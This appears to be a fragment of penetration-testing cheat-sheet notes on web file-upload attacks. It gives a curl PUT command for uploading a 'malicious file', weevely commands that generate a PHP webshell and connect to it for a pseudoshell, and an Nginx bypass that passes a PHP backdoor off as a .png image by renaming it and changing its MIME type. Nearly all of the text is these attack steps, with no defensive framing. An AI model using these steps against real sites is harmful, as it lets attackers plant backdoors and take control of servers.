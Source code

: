 #### curl
- `curl <http> --upload-file <path>` - PUT request; use it to upload malicious file

#### Webshell generator
* `weevely generate <password> <path>`
    * upload the generate file to vulnerable app
* `weevely <uploaded vulnerable URL>/<payload.jpg>/<payload.php> <password>` - grants a pseudoshell

### Bypasses
#### Nginx
* https://vulnerable/simple-backdoor.png/simple-backdoor.php
    * upload a php file and change the extension to png
    * append the original pgp name at the end of the URL
    * extra: in the original bypass upload request, change the mime-type to _application/x-php_